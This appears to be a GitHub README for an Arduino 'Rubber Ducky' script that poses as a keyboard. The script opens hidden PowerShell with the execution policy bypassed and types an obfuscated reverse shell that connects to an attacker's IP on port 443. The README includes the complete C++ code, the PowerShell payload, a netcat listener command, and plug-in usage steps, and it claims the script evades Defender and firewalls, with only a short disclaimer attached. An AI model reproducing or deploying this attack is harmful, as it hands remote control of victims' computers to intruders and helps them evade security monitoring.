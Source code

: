 
# Rubber Ducky Arduino Script

This Arduino script transforms your device into a Rubber Ducky that exploits a security vulnerability not yet patched by Microsoft. When executed, it establishes a reverse shell that can bypass firewalls, advanced endpoint monitoring systems, and Microsoft Defender. If configured to use port 443, firewalls interpret the outgoing connection as a secure SSL connection, even though it's actually a reverse shell.

## Features

- Bypasses firewalls and endpoint monitoring systems.
- Evades Microsoft Defender.
- Mimics a secure SSL connection when using port 443.
- Executes a reverse shell from PowerShell.

## Technical Explanation

This script leverages the `Keyboard.h` library to simulate keyboard inputs, effectively typing out commands as if a user were physically typing them. Here’s how it works:

1. **PowerShell Execution**: The script opens PowerShell using the `Windows + R` command to bring up the Run dialog and then types `powershell -NoP -NonI -W Hidden -Exec Bypass`. 

   - `-NoP`: Stands for No Profile. This parameter prevents PowerShell from loading the user's profile, reducing execution time.
   - `-NonI`: Stands for Non-Interactive. This parameter starts PowerShell in non-interactive mode, which is suitable for running scripts.
   - `-W Hidden`: This parameter launches PowerShell in a hidden window, making the execution invisible to the user. The PowerShell window runs in the background without appearing on the desktop.
   - `-Exec Bypass`: This parameter bypasses the PowerShell execution policy, allowing scripts to run without restrictions. This is crucial for executing potentially restricted or untrusted scripts.

2. **Reverse Shell**: The script types a PowerShell command to create a reverse TCP connection to a specified IP address and port. It sends the following command:

   ```powershell
   $c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("IP",PORT);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oUt-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
   ```

   - This command creates a new TCP client connection to the attacker's IP (`X.X.X.X`) on port `443`.
   - It establishes a stream to send and receive data, effectively creating a shell on the target machine that the attacker can control remotely.

3. **Simulating Keyboard Input**: The Arduino simulates keyboard input using the `Keyboard.print()` and `Keyboard.press()` functions to type out the entire PowerShell command, making it appear as though it was typed by a real user, but invisibly.

## Configuration

Before using this script, you need to make the following configurations:

1. **Adapt Keyboard Layout**: Change `KeyboardLayout_es_ES` in the code if you're not using a Spanish keyboard layout. Adjust it to match your keyboard's country layout, for example, `KeyboardLayout_us` for a US English keyboard.

2. **Configure IP and Port**: Change the IP address `"IP"` and port `PORT` in the script to match the IP and port of your listening machine.

3. **Start Listening**: Before running the script, ensure you are in listening mode on the configured IP and port. This can be done using tools like `netcat`:

   ```bash
   nc -lvnp PORT
   ```

## Usage

1. Upload the script to your Arduino device.
2. Plug the device into a USB port on the target machine.
3. The script will execute a sequence that opens PowerShell and establishes a reverse shell back to your listening machine.

**Warning!**: This script is for educational and security research purposes only. Do not use it for malicious activities or without the explicit consent of the target system's owner. Misuse of this script could be illegal.

## Code

```cpp
#include "Keyboard.h"
void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Beginning the Keyboard stream
  Keyboard.begin(KeyboardLayout_es_ES);

  // Wait 500ms
  delay(500);

  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(100);
  Keyboard.print("powershell -NoP -NonI -W Hidden -Exec Bypass");
  delay(100);
  
  typeKey(KEY_RETURN);
  delay(1500);
  
  Keyboard.print("$c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("IP",PORT);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$");
  delay(100);
  
  Keyboard.print("s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oU");
  delay(100);
  
  Keyboard.print("t-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()");
  delay(100);
  
  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}
```

## Note

This script has been tested in a controlled environment and has proven effective in evading some of the most common security measures. However, there are always risks associated with the use of offensive security tools. Use this script at your own risk and responsibility.

